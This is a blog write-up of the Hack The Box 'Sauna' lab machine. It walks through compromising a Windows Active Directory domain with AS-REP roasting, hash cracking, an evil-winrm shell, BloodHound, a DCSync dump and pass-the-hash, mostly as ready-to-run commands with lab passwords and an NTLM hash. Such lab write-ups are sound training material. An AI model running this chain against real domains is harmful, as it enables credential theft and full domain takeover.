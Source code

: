 ```yaml
---
title: "Writeup: Sauna from Hack The Box"
author: Asier Núñez
pubDatetime: 2025-01-08T16:04:31.617Z
slug: sauna-writeup
featured: false
draft: false
tags:
  - Windows
  - Active Directory
  - Security
  - Ethical Hacking
  - Kerberos
  - DCSync
  - Hack The Box
description: "Writeup for the Sauna machine from Hack The Box, a Windows Active Directory box that involves Kerberos abuse and DCSync attacks."
---
```


## Enumeration

Domain: EGOTISTICAL-BANK.LOCAL.

Open Ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49668,49674,49676,49696

## Initial Foothold

If we visit the `about.html` page, we can find full names. We could use this information and [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to create a list of usernames.

```bash
/opt/username-anarchy/username-anarchy -i ./names --select-format first,flast,first.last,firstl > usernames.txt
```

With this list of usernames we can check if Kerberos pre-authentication is disabled for any of them.

```bash
while read p; do impacket-GetNPUsers egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.129.163.173 >> hash.txt; done < usernames.txt
```

And bingo! `fsmith` has Kerberos pre-authentication disabled.

![GetNPUsers](@assets/images/writeups/htb/sauna/getNPUsers.png)

We can now use a tool like john to crack the hash.

```bash
john hash.txt --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```

![John](@assets/images/writeups/htb/sauna/john.png)

And we get the password `fsmith:Thestrokes23`.

Now we can use `evil-winrm` to get a shell.

```bash
evil-winrm -u fsmith -p Thestrokes23 -i 10.129.163.173
```

![Evil-WinRM](@assets/images/writeups/htb/sauna/evil-winrm.png)

## Privilege escalation

Once we are in the machine, we can use `PowerUp.ps1` to enumerate the system or upload WinPEAS via `evil-winrm`.

```bash
*Evil-WinRM* PS C:\Users\fsmith\Documents> upload /root/winPEASx64.exe
```

After running WinPEAS we can see that the user account `svc_loanmgr` is configured to auto-login.

![Peas-Auto](@assets/images/writeups/htb/sauna/peas-autologin.png)

```
svc_loanmgr:Moneymakestheworldgoround!
```

We can now run bloodhound to gather information about the domain.

```bash
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u svc_loanmgr -p Moneymakestheworldgoround! -c all -ns 10.129.163.173
```

![BloodHound](@assets/images/writeups/htb/sauna/bloodhound-py.png)

Once we upload the data to BloodHound, we can see that the user `svc_loanmgr` can perform DCSync attacks.

![DCSync-Perms](@assets/images/writeups/htb/sauna/dcsync-perms.png)

We can use `secretsdump` to perform a DCSync attack.

```bash
impacket-secretsdump EGOTISTICAL-BACK.LOCAL/svc_loanmgr@10.129.163.173
```

![DCSync](@assets/images/writeups/htb/sauna/dcsync.png)

We can use the hash to get a shell as `administrator`.

```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e administrator@10.129.163.173
```

![Admin](@assets/images/writeups/htb/sauna/admin.png)
